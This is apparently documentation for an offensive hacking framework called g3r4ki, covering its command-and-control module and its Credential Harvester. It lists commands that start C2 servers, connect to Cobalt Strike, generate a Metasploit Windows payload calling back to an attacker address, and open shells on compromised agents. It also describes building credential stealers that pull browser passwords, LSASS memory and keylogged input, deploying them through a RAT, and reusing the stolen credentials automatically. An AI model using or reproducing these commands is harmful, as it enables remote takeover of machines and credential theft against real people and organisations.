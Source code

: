 ### Commands

```bash
# Start the internal C2 server
python g3r4ki.py offensive c2 start --port 443 --ssl 

# Connect to external C2
python g3r4ki.py offensive c2 connect --type cobalt-strike --host 192.168.1.50 --port 50050 --user operator --password P@ssw0rd

# Generate a payload for external C2
python g3r4ki.py offensive c2 payload --c2-type metasploit --lhost 192.168.1.10 --lport 4444 --platform windows --output msf_payload.exe

# List connected C2 frameworks and agents
python g3r4ki.py offensive c2 list
python g3r4ki.py offensive c2 agents

# Interact with an agent
python g3r4ki.py offensive c2 shell --agent-id AGENT1
```

## Credential Harvester

The Credential Harvester module extracts and stores credentials from various sources.

### Credential Sources

- Browser stored passwords
- System credential stores
- Memory extraction (LSASS)
- Network traffic
- Cached/saved credentials
- Keylogged credentials

### Features

- **Active Harvesting**: Direct memory and storage extraction
- **Passive Collection**: Monitor and collect over time
- **Auto Classification**: Identify credential types and importance
- **Secure Storage**: Encrypted credential storage in the database
- **Credential Reuse**: Automatically attempt to use harvested credentials

### Commands

```bash
# Generate a standalone credential harvester
python g3r4ki.py offensive creds generate --platform windows --methods browser,system,memory --output cred_harvest.exe

# Deploy to an existing RAT
python g3r4ki.py offensive creds deploy --rat-id RAT123 --methods all

# Retrieve and view collected credentials
python g3r4ki.py offensive creds retrieve --id HARVEST1
python g3r4ki.py offensive creds list --filter "domain=*.corp.local"

# Test credential validity
python g3r4ki.py offensive creds validate --id CRED123 --service ssh --target 10.0.0.5
```
